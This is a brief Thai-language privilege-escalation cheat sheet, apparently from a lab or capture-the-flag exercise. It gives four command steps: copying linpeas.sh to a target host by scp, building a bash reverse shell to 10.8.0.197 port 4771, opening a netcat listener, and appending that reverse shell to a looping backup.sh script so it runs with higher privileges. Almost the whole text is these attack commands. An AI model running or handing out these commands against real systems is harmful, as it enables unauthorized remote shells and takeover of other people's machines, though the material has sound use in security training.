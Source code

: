 #privesc 
# Step
เป็นการยกระดับสิทธ์ ด้วยการ อาศัย โปรแกรม ที่ระบบรัน แบบ ลูปไว้
1. หาไฟล์ที่รัน loop และแก้ไขได้ ด้วย linpeas.sh
```bash
scp linpeas.sh harry@172.18.0.5:/home/harry 
bash linpeas.sh
```
2. สร้าง reverse shell จาก web
```bash
sh -i >& /dev/tcp/10.8.0.197/4771 0>&1
```
3. เปิดพอร์ต
```bash
nc nvlp 4771
```
4. แทรก reverse shell ลงไปในไฟล์ที่เกิดการทำงานลูป
```bash
echo "sh -i >& /dev/tcp/10.8.0.197/4771 0>&1" >> backup.sh
```